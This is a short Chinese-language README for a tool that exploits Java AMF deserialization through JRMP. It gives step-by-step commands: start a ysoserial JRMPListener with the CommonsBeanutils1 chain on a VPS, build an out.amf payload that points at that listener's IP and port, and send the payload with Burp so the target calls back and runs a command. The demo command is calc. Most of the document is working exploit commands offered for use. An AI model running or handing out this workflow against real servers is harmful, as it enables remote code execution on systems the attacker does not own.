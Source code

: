 # AMF_JRMP
改造一个基于jrmp的AMF反序列化利用工具 

只适用于出网的机器

将ysoserial放到服务器/vps中，先启动一个jrmp，利用链根据实际情况改
```bash
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1234 CommonsBeanutils1 calc
```

然后本地运行这个AMFpoc_JRMP.jar
```bash
java -jar AMFpoc_JRMP.jar 起服务的ip 起服务的端口
```
比如这样
```bash
java -jar AMFpoc_JRMP.jar 114.114.114.114 1234
```
他会生成一个out.amf,使用burp右键选择pasted from file，选这个out.amf发送就可以触发

https://www.mi1k7ea.com/2019/12/07/Java-AMF3反序列化漏洞/
